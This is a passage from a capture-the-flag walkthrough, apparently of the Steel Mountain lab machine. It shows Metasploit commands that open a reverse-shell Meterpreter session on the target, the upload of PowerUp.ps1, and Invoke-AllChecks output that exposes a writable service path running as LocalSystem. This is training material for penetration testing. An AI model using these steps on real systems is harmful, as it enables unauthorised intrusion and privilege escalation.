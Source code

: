 ### Configure and Run
Set the target IP and port:
```js
msf6 > set RHOSTS 10.10.195.17
msf6 > set RPORT 8080
msf6 > run
```

**Output**:
```
[*] Started reverse TCP handler on 10.10.86.27:4444 
[*] Using URL: http://10.10.86.27:8080/RYjvc2zAZmYKC4
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /RYjvc2zAZmYKC4
[*] Sending stage (175686 bytes) to 10.10.128.249
[*] Meterpreter session 1 opened (10.10.86.27:4444 -> 10.10.128.249:49214) at 2025-08-08 12:56:20 +0000
[*] Server stopped.
meterpreter >
```

**Result**: A Meterpreter session is established, granting initial access as a low-privileged user (likely `bill`).

---

## Privilege Escalation

### Enumeration with PowerUp.ps1
To identify privilege escalation vectors, use the `PowerUp.ps1` script:
1. Download the script: [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).
2. Save it locally as `PowerUp.ps1`.
3. Upload it to the target machine:
```js
meterpreter > upload /root/PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/PowerUp.ps1 -> PowerUp.ps1
```

4. Load PowerShell in Meterpreter:
```js
meterpreter > load powershell
meterpreter > powershell_shell
```

5. Run the script and execute `Invoke-AllChecks`:
```js
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

**Relevant Output**:
```js
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : C:\Program Files (x86)\IObit\Advanced SystemCare
ModifiableFilePermissions : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart     : True
Check          : Modifiable Service Files
```
